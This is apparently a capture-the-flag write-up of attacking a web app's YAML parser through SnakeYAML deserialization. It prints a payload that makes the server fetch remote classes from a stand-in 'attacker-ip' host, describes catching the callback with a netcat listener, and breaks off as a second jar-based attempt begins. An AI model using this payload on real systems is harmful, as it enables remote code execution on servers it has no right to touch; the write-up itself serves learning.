  it brings a parse yaml and by writing anything then executing it brings an error of security reason
   
  
#### Output
  ![[Pasted image 20210703161903.png]]
   
   
   
   After parsing some special character 
   
   ##### Screenshot 4
   ![[Pasted image 20210703162251.png]]
   
   
  
  it then gives a status of 500 at least it shows us it is doing something
  
   ##### Screenshot 5
  ![[Pasted image 20210703162511.png]]
  
   looking at the screenshot above i see a snakeyml by looking for information about it we find out that it has a javascript payload https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858 then we try to load the payload to the parse ymxl and have a listening port to see if we can get a shell.
  ### Trying the first snakeyaml payload
  ``` bash
  !!javax.script.ScriptEngineManager [  
  !!java.net.URLClassLoader [[  
    !!java.net.URL ["http://attacker-ip/"]  
  ]]  
]
```
   
   ##### Screenshot 6
  ![[Pasted image 20210703163531.png]]
  
  #### Terminal Listening
  a netcat listening at port 80
  
   ##### Screenshot 7
  ![[Pasted image 20210703164045.png]]
  
  but we do not find a shell at least the server was able to be reached out so we know there is a kind of vulnerability
   
   
  ### Second Execution of the payload 
  we then discover there is a github vulnerability https://github.com/artsploit/yaml-payload it is the same but given it a jar file
   
   ##### Screenshot 8 
  ![[Pasted image 20210703165035.png]]
   